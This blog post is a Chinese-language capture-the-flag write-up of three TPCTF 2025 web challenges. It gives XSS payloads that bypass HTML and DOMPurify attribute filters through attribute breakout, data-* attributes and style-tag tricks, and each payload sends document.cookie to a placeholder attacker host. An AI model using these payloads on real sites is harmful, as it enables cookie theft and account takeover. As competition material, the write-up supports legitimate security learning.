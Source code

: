 +++
title = "TPCTF 2025 Writeup"
date = "2025-03-11T06:52:38+08:00"
author = "GeekCmore"
authorTwitter = "" #do not include @
cover = ""
coverCaption = ""
tags = ["XCTF", "Writeup"]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
color = "" #color from the theme settings
+++

本次TPCTF 0xFFF最终获得第9名的的成绩。
{{< image src="https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/TPCTF 2025 Writeup-2025-03-11-06-58-53.png" alt="TPCTF 2025 Writeup-2025-03-11-06-58-53" position="center" style="border-radius: 1px;" >}}


0xFFF是一支劲头十足的新兴战队，现在正在全方向招新，如果你有意向，请发送简历至T_0xFFF@163.com。



## Web

### baby layout
这个地方可以利用 attr 进行 xss，第二次把之前的 centent 引号闭合掉，插入 onload 属性就就行
payload如下：
``` html
layout:  <svg src="{{content}}"></svg>  

content:    test" onload=location.href="http://IP:PORT?flag="+document.cookie src="
```

### safe layout
safe layout
和baby layout的区别在于过滤了所有html属性：
{{< image src="https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/TPCTF 2025 Writeup-2025-03-11-06-59-42.png" alt="TPCTF 2025 Writeup-2025-03-11-06-59-42" position="center" style="border-radius: 1px;" >}}
但是data-* 和 aria-* 类的属性是不会被过滤的
参考这篇文章：https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations
改一下baby的payload就可以了：
```html
<svg data-type="{{content}}"></svg>

test" onload=location.href="http://xxx.xxx.xxx.xxx:xxxx?flag="+document.cookie src="
```
### safe layout revenge
这个地方除了对 attr 进行过滤，还把 aria 和 data 一起过滤了
{{< image src="https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/TPCTF 2025 Writeup-2025-03-11-07-00-20.png" alt="TPCTF 2025 Writeup-2025-03-11-07-00-20" position="center" style="border-radius: 1px;" >}}
整体思路是采用 style 绕过，测试发现当 style 标签前面跟上一些字符时，style 内部的元素可能会得以保留，故这里采用的是删除策略，把 xss 的 payload 构造好后，把 script 标签插入 content，在第二次 post 的时候删除就行
```json

{ "layout": "s<style><{{content}}/style><<{{content}}script>location.href=\"http://xxx.xxx.xxx.xxx:xxxx?flag=\"+document.cookie;<{{content}}/script>test</style>" }

{ "content": "", "layoutId": 2 }
```